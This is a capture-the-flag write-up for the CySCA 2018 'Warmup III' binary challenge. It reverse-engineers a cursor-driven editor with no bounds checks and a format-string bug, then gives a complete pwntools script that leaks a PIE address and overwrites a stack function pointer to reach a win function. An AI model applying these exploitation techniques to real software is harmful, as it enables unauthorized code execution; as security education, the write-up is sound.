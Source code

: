 ```yaml
---
layout: post
title: CySCA 2018 | Warmup III Writeup
author: adamt
---
```


This challenge included reverse engineering a unique command sequence, and then hijacking the logic of the program to leak memory addresses and eventually get shell.

The commands
-----------------------------------------

The program/shell was at its most basic level, a text editor in which you could move a cursor around and incremenet/decrement the value at a specific location & view the value at the cursor

The program/shell had 6 useful commands you could enter
<br />
The cursor by default is in the beginning of the buffer, the buffer is NULLed out memory.
<br />

* '+'   =>    Increment the value at the cursor
* '-'   =>    Decrement the value at the cursor
* 'd'   =>    Print the byte value at the cursor
* 'p'   =>    Set the buffer as the first argument to printf (printf is stored on the stack at address $rbp - 0x14)
* '>'   =>    Increment the cursor
* '<'   =>    Decrement the cursor

There are no checks done on the width/size of the buffer. The buffer is of 0x400 size stored at $rbp - 0x420. 

The Vulnerability
-------------------------------------------------

Firstly since there are no checks done on the boundary of the buffer, we are able to move the cursor to any arbritary location on the stack by incrementing/decrementing it. This coupled with the fact that we can write bytes to the cursor via the '+'/'-' commands allow for an arbritary write primitive to any address on the stack.

There is also a format string vulnerability via the 'p' command, as this treats the (user-controlled) buffer as the format argument to printf. This, paired with the arbritary write from above, allows us to leak values quickly off the stack.


The Exploit
-----------------------------------------------------

We first notice there is a `win` function include in the binary. This is our goal.
Also notice that the address of printf is stored on the stack, and so overriding this address, will result in arbritrary code execution.
<br />

```python
~/ctfs/cysca2018/binary   
❯ checksec chal3 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
Notice that PiE is enabled. This means that in order find the address of `win` we need a leak.
Luckily we learnt earlier we have a format string vuln, so we write `%n$p` to the stack and chuck that in a loop to leak a few addresses.
<br />

We can do this by Incrementing each byte of the buffer to the correct ascii value, and then sending the print command

```
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++>++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++>+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++>>p
```

Would print `ABC`, since we incrementing the first byte 0x41 times, then moved the cursor along... and so on.




After leaking stack addresses I noticed that `%136$p` leaked the address of \_start of the binary. This is -0x110 offset from the win function. Great! Now we have an address to jump to..
<br />

Next we just need to somehow overwrite the function pointer on the stack. Thats where our arbritrary write comes in (This could also be done with the format string from earlier). The function pointer is 0x408 bytes away from the start of the buffer. So moving the cursor 0x408 will place us right over the function pointer, allowing us to overwrite it. Yay!!!


Final Script:

```python
from pwn import *

p = process("./chal3") #remote("10.13.37.33", 10003)
INC = '+'
DEC = '-'
HPRINT = 'd'
PRINT = 'p'
NEXT = '>'
PREV = '<'
WIN = -0x110

# Write a value to the buffer.
# print the value
# Reset the buffer to all NULL's
def create_string(s):
    ret = ''
    for c in s:
        ret += ord(c) * INC # Write the character to the cursor
        ret += NEXT # Increment the cursor 
    ret += PRINT # Print the buffer

    for c in s[::-1]:
        ret += PREV # Decrement the cursor
        ret += ord(c) * DEC # Set the value at the cursor to 0
    return ret

def send(s):     
    a = create_string(s+'\n') + PRINT
    p.sendline(a)


def goforward(n):
    p.sendline(NEXT * n)

send("%136$p")
leak = int(p.recvline().strip()[2:], 16)
win_address = leak + WIN

goforward(0x408) # move the cursor over the pointer

for i in range(0, 8): # Write win_address to the printf address on the stack
    p.sendline(HPRINT) # Leak 1 byte of the address
    num = int(p.recvline(), 16)
    p.sendline(DEC * num)  # Set the byte to 0
    
    num = win_address & 0xFF # Calculate the next byte to write 
    win_address >>= 8
    
    p.sendline(INC * num) # Set the byte to the correct value
    p.sendline(NEXT)


p.sendline(PRINT) # Call the win function
p.interactive()
```




